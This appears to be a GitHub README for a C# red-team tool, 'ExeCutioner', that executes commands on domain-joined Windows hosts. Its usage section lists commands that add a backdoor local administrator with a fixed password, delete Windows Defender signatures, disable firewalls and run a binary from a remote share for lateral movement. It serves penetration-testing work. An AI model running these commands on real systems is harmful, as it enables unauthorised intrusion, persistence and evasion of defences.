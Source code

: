 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164892286-a8659b4f-d34b-408a-a7cb-2bee9295f400.png)

Domain-joined Code Executioner

This is a C-Sharp tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It was heavily inspired by the OSEP course and leverages code and ideas from https://github.com/chvancooten/OSEP-Code-Snippets
                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current system token and turn off av
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /syscreds true /nofw true

//Authenticate to target with current system token and execute command
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current system token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <\\192.168.10.8\\lateralmovement.exe>
```


